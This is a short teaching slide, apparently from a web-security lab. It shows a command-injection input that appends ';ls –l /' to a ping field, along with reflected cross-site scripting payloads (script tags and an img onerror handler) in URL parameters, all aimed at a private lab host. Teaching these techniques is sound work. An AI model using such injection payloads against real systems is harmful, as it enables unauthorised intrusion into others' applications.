

# Web attacks lab
11-Remote execution:
http://192.168.67.128/compiler/rexec/index.php : Enter hostname to ping
	http://192.168.67.128/compiler/rexec/index.php: Enter hostname to ping postfixed with ;ls –l /
12-Cross-site scripting.
http://192.168.67.128/compiler/xss/example1.php?name=ahmed
	http://192.168.67.128/compiler/xss/example1.php?name=<script>alert(1);</script>
	http://192.168.67.128/compiler/xss/example2.php?name=<script>alert(1);</script>
	http://192.168.67.128/compiler/xss/example2.php?name=ahmed+<img src="asd" onerror=alert(1)>